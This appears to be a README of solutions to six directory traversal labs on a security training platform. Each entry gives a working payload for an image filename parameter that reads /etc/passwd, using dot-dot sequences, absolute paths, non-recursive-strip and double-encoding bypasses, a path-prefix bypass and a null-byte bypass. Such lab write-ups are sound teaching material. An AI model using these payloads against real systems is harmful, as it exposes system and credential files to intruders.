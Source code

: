 <div align='center'>

# **Directory Traversal**

</div>

## **Lab 1:** File path traversal, simple case

**Solution:** Go to endpoint '/image?filename=../../../../../../../../../../etc/passwd' to read the content of the file

Solution script: [Lab1.py](./Lab1.py)

## **Lab 2:** File path traversal, traversal sequences blocked with absolute path bypass

**Solution:** Go to endpoint '/image?filename=/etc/passwd' to read the content of the file

Solution script: [Lab2.py](./Lab2.py)

## **Lab 3:** File path traversal, traversal sequences stripped non-recursively

**Solution:** Go to endpoint '/image?filename=....//....//....//....//....//....//....//....//....//....//etc/passwd' to read the content of the file

Solution script: [Lab3.py](./Lab3.py)

## **Lab 4:** File path traversal, traversal sequences stripped with superfluous URL-decode

**Solution:** Go to endpoint '/image?filename=../../../../../../../../../../etc/passwd' (the value of the filename parameter have to be URL Encoded two times) to read the content of the file

Solution script: [Lab4.py](./Lab4.py)

## **Lab 5:** File path traversal, validation of start of path

**Solution:** Go to endpoint '/image?filename=/var/www/images/../../../etc/passwd' to read the content of the file

Solution script: [Lab5.py](./Lab5.py)

## **Lab 6:** File path traversal, validation of file extension with null byte bypass

**Solution:** Go to endpoint '/image?filename=../../../etc/passwd%00.png' to read the content of the file

Solution script: [Lab6.py](./Lab6.py)